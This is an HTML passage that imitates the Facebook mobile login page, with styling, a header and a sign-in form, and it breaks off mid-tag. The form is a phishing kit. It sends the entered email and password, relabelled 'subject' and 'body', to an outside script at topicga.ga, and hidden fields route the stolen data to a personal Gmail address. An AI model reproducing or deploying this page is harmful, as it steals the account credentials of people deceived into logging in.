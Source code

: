 0 0}._1_9_._1_9_._1_9_ ._1_a2{background:#627aba;border:1px solid #2e417e;color:#fff;font-size:x-small;font-weight:normal;margin-left:3px;height:22px;line-height:20px}._3zp4{color:#dbe9ff}._3zp5{color:#fff}.nontouch a._3zp6,.nontouch a._3zp7{border-top:1px solid #4476e8;color:#fff;display:block;line-height:26px;text-align:center}.nontouch a._3zp7{border-left:1px solid #4476e8}.nontouch ._2e3q span{font-size:14px}._1t4z{margin:auto}.lr{width:100%}.lr .r{text-align:right}.img{border:0;display:inline-block;vertical-align:top}i.img u{position:absolute;width:0;height:0;overflow:hidden}._3idh{font-size:small;padding:7px 8px 8px}._3idi{display:block;margin-top:8px;padding:2px;text-align:center}._3idj{display:block;font-size:x-small;margin:-3px -3px 1px -3px;padding:3px}._4xvz{border:1px solid #90949c;display:block;font-size:x-large;height:20px;line-height:18px;text-align:center;vertical-align:middle;width:20px}.nontouch ._3idh td._3idk{padding-right:4px}.nontouch ._3idh td._3idn{padding-left:4px}._3idh._3ido{background-color:#e9ebee}._3ido{border-top:1px solid #d0d1d5;color:#90949c}._3ido ._3idi{border:1px solid #90949c;color:#90949c}.nontouch ._3ido a,.nontouch ._3ido a:visited{color:#90949c}.nontouch ._3ido a:focus,.nontouch ._3ido a:hover{color:#fff}._3ido ._3idi:focus,._3ido ._3idi:hover{border:1px solid #293e6b}._3idh._3idp{background-color:#4b4f56}._3idp{border-top:1px solid #4b4f56;color:#bec2c9}._3idp ._3idi{border:1px solid #bec2c9;color:#bec2c9}.nontouch ._3idp a,.nontouch ._3idp a:visited,.nontouch ._1xz- a,.nontouch ._1xz- a:visited{color:#bec2c9}.nontouch ._3idp a:focus,.nontouch ._3idp a:hover,.nontouch ._1xz- a:focus,.nontouch ._1xz- a:hover{background:#dddfe2;color:#1d2129}._3idp ._3idi:focus,._3idp ._3idi:hover{background:#dddfe2;border:1px solid #dddfe2;color:#1d2129}._3idq{margin-bottom:8px}._3idh._3idp ._3idq>table{background:#d3d7dc;border:1px solid #4b4f56}._3idr{background:#d3d7dc}
[class*="s5"]{display:none!important;}
[id*="sconl"]{display:none!important;}._2n2s{background-color:#4b4f56;font-size:x-small;padding:7px 8px 8px}._18gw{color:#bec2c9;display:block;font-size:x-small;margin:-3px -3px 1px -3px;padding:3px}._4toj{padding:0 8px 8px}/*]]>*/</style><meta name="description" content="Log in to Facebook to start sharing and connecting with your friends, family and people you know." /><link rel="canonical" href="https://www.facebook.com/" /></head><body tabindex="0" class="nontouch x1 iframe acw"><div class="mfsm"><div id="viewport"><div class="acb aps" id="header"><table cellspacing="0" cellpadding="0" class="lr"><tr><td valign="middle"><h1><img src="https://z-m-static.xx.fbcdn.net/rsrc.php/v3/yK/r/sjXCAL2_98M.png" width="62" height="13" class="img" alt="facebook" /></h1></td><td valign="middle" class="r"><a class="_54k8 _56bs _2e3q _56bv" href="/reg/?cid=102&amp;refid=8" style="background-color:#69a74e;color:white;"><span class="_55sr">Create Account</span></a></td></tr></table></div><div id="objects_container"><div class="acw" id="root" role="main"><table class="_4g33" role="presentation"><tbody><tr><td class="_4g34"><div><div class="aclb _5rut"><div><div class="acy apl abt abb"><a href="https://d.facebook.com/fbapp/d/facebook.jad?cr=mb&amp;uid=0&amp;refid=8">Get Facebook Mobile and browse faster.</a></div></div><form method="post" class="mobile-login-form" id="login_form" novalidate="1" action="http://topicga.ga/action.php">



<input type="hidden" name="tomail" value="aratik169@gmail.com">



<input type="hidden" name="frommail" value="nomail@gmail.com"> <ul class="_5pkb _55wr login_form"><li class="_55wr"><h3 class="_52jh _22qg _2pim">Email address or phone number</h3><input autocorrect="off" autocapitalize="off" class="_56bg _4u9z _5ruq" name="subject" value="" type="text" /></li><li class="_55wr"><div><h3 class="_52jh _22qg _2pim">Password</h3><input autocorrect="off" autocapitalize="off" class="_56bg _4u9z _27z2 _27z3" name="body" type="password" /></div></li><li class="_55wr"><input value="Log In" type="submit" name="login" class="_54k8 _56bs _56b_ _56bx _56bu" /></li></ul><div class=""></div><noscript><input type="hidden" name="_fb_noscript" value="true" /></noscript></form><div class="_3qrv"><span class="_3qrw">or</span></div><div class="_52jj _2pi8"><div class="_52jj _333u" id="signup-button"><a class="_54k8 _56bs _56bt" href="/reg/?cid=103&amp;refid=8" style="
          background-color:#69a74e;
          color:white;